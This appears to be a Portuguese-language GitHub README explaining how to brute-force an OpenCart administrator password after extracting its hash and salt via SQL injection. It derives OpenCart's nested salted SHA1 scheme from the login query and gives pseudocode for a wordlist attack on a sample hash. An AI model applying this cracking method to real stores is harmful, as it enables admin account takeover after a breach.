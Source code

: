 # brute force opencart documentation
Nesse documento eu explico como realizar ataques de força bruta em senhas opencart


## CENÁRIO:
- VOCÊ CONSEGUIU INJETAR CÓDIGO SQL NO OPENCART.
- VOCÊ CONSULTA A SENHA E O SALT DA SENHA NA TABELA DO ADMIN.

- A SENHA É: **f2e9efd4a366507c5b1cba7749659d93d61ae335** (SHA1)
- A SALT É: **oInuc412L**

Se vc não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa HASH com força bruta comum usando criptografia SHA1.

```
INICIO:

$wordlist_string[] = WORDLIST.TXT

$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";
$comparative = SHA1($wordlist_string[0]);

SE $comparative IGUAL A $password
	ENTÃO: A SENHA É : $comparative

SE NÃO
	$comparative = SHA1($wordlist_string[++]);
	COMPARA A $comparative COM A $password
FIM.

ASSIM SUCESSIVAMENTE ATÉ TERMOS $comparative == $password
```


O problema é que `$password`, (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um programa de força bruta baseada nesse tipo de criptografia nunca iria gerar uma hash equivalente a que você quer possui.

PORQUE?

OLHANDO NO CÓDIGO QUE FAZ A AUTENTICAÇÃO DO USUÁRIO NO OPENCART
\system\library\customer.php

TEMOS O SEGUINTE CÓDIGO:
```
$customer_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "customer WHERE LOWER(email) ='" . $this->db->escape(strtolower($email)) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1' AND approved = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

TRANSFORMANDO PRA NOSSA LINGUA FICA ALGO COMO:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

obs: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

Agora já sabemos como devemos criptografar nossas strings da nossa wordlist e comparar com a HASH do ADMIN

FICARIA ALGO DO TIPO:


```
INICIO:

$wordlist_string[] = WORDLIST.TXT

$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";
$comparative = SHA1($salt.SHA1($salt.SHA1($wordlist_string[0])));

SE $comparative IGUAL A $password
	ENTÃO: A SENHA É : $comparative

SE NÃO
	$comparative = SHA1($salt.SHA1($salt.SHA1($wordlist_string[++])));;
	COMPARA A $comparative COM A $password
FIM.

ASSIM SUCESSIVAMENTE ATÉ TERMOS $comparative == $password
```

###### _DUVIDAS? SUGESTÕES?: [pablov3rlly gmail com]_
